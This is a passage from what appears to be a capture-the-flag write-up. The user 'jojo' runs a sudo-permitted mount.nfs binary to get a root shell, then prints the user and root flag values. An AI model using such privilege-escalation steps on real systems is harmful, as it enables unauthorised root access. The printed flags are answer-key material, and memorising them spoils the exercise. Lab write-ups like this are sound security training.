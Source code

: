 Now, let's use sudo to get our shell:

```
jojo@tonhotel:/$ sudo /usr/sbin/mount.nfs
root@tonhotel:/# whoami
root
```

![Pasted image 20250702190338.png](../../IMAGES/Pasted%20image%2020250702190338.png)

There we go, let's get both flags and end the CTF:

```
root@tonhotel:/# cat /home/sandra/user.txt
thm{5b23d1881ee6a6cfac85866b9a4ff941ecd2fa3e}

root@tonhotel:/# cat /root/root.txt
thm{7f6b4d8aee9e1677a0db343ace5fff23fc5b5d3b}
```


![Pasted image 20250702190453.png](../../IMAGES/Pasted%20image%2020250702190453.png)


